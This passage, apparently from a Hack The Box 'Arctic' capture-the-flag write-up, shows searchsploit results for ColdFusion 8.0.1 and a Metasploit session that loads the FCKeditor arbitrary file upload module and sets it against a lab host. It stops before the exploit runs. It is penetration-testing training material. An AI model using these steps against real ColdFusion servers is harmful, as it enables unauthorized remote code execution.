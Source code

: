 We now know we are dealing with a ColdFusion based site, let's check searchsploit:

```text
root@kali:~/htb/machines/arctic# searchsploit coldfusion 8.0.1
---------------------------------------------------------- ----------------------------------------
 Exploit Title                                            |  Path
                                                          | (/usr/share/exploitdb/)
---------------------------------------------------------- ----------------------------------------
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm | exploits/cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authent | exploits/cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_loginto | exploits/cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/ | exploits/cfm/webapps/33168.txt
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Met | exploits/cfm/webapps/16788.rb
```

The bottom one looks good, with file upload and metasploit module it should be easy.

## Gaining Access

Start msf and search:

```text
root@kali:~/htb/machines/arctic# msfconsole
msf5> search coldfusion

Matching Modules
================

   #  Name                                                           Disclosure Date  Rank       Check  Description
   -  ----                                                           ---------------  ----       -----  -----------
   7  exploit/windows/http/coldfusion_fckeditor                      2009-07-03       excellent  No     ColdFusion 8.0.1 Arbitrary File Upload and Execute
```

Let's use the fckeditor module and set options:

```text
msf5 > use exploit/windows/http/coldfusion_fckeditor
msf5 exploit(windows/http/coldfusion_fckeditor) > options

Module options (exploit/windows/http/coldfusion_fckeditor):
   Name           Current Setting                                                             Required  Description
   ----           ---------------                                                             --------  -----------
   FCKEDITOR_DIR  /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm  no        The path to upload.cfm
   Proxies                                                                                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                                     yes       The target address range or CIDR identifier
   RPORT          80                                                                          yes       The target port (TCP)
   SSL            false                                                                       no        Negotiate SSL/TLS for outgoing connections
   VHOST                                                                                      no        HTTP server virtual host
Exploit target:
   Id  Name
   --  ----
   0   Universal Windows Target

msf5 exploit(windows/http/coldfusion_fckeditor) > set RHOST 10.10.10.11
RHOST => 10.10.10.11
msf5 exploit(windows/http/coldfusion_fckeditor) > set RPORT 8500
```